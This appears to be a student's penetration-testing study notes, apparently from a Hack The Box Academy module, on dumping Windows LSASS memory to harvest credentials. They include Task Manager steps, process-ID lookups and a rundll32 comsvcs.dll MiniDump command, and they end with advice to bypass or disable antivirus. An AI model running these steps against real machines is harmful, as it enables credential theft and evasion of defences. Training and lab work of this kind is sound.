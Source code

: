 # Attacking LSASS

#### LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems

![](https://academy.hackthebox.com/storage/modules/147/lsassexe_diagram.png)

### Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

## Dumping LSASS Process Memory (GUI)
##### Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
`C:\Users\loggedonusersdirectory\AppData\Local\Temp`

## With CLI
### Finding LSASS PID in cmd
```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```
- or
```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

## Creating lsass.dmp using PowerShell
#### We need elevated privs
`PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`
- Recall that most modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing
